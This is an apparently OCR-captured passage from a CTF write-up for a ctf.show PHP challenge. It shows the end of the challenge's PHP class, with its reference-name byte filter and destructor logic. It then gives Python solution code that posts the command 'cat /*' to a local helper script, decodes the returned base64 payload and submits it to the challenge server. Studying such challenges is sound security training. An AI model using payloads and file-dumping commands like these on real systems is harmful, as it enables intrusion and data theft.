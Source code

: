 			          if(sizeof($r)>self::__REF_SIZE__){
			              throw new \Exception("Refenerce size too long!", 1);
			          }
			  
			          if(is_numeric($r[0]) || $this->checkByte($r[0])){
			              throw new \Exception("Ref invalid!", 1);
			          }
			  
			          array_shift($r);
			  
			          foreach ($r as $s) {
			  
			              if($this->checkByte($s)){
			                  throw new \Exception("Ref invalid!", 1);
			              }
			          }
			      }
			  
			      private function checkByte($check){
			          if(ord($check) <=self::__REF_OFFSET_5_x30 || ord($check) >=self::__REF_OFFSET_2_x7b ){
			              return true;
			          }
			  
			          if(ord($check) >=self::__REF_OFFSET_3_x5b && ord($check) <= self::__REF_OFFSET_4_x60 
			              && ord($check) !== self::__REF_OFFSET_6_x5f){
			              return true;
			          }
			  
			          return false;
			  
			      }
			  
			      function __construct(){
			          $this->cache=fopen("php://memory","wb");
			      }
			  
			      public function __destruct(){
			          $this->readNeaten();
			          fclose($this->cache);
			      }
			  
			  }
			  highlight_file(__FILE__);
			  error_reporting(0);
			  $c = new C;
			  
			  $c->main();
			  
			  ```
		- 将payload提交即可
			- ```python
			  # url = "http://127.0.0.1:8081"
			  url = "http://69ab6266-8284-4be1-b09b-f6d807234ac4.challenge.ctf.show/"
			  r = base_post("http://127.0.0.1:8081/a.php", data = {
			      "cmd": "cat /*"
			  })
			  # f1agaaa
			  result = re.search("payloadstart(.+)payloadend", r.text)
			  payload = result.group(1)
			  payload = enc_dec.base64.b64decode(payload)
			  r = base_post(url, data = {
			      "data": payload
			  })
			  print(r.text)
			  ```